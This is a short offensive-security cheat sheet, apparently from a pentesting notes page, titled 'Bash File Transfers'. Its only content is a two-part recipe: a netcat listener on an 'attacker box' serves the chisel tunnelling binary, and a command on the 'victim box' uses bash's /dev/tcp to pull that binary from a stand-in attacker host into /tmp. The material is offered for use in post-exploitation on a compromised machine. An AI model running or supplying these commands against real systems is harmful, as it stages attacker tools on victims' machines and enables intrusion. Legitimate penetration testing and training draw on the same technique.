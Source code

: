 # Bash File Transfers

## Simple File Transfers

<pre class="language-bash"><code class="lang-bash"><strong># Attacker Box
</strong>nc -lnvp 8000 &#x3C; chisel

# Victim Box
bash -c "cat &#x3C; /dev/tcp/attackerboxip/8000 > /tmp/chisel"
</code></pre>

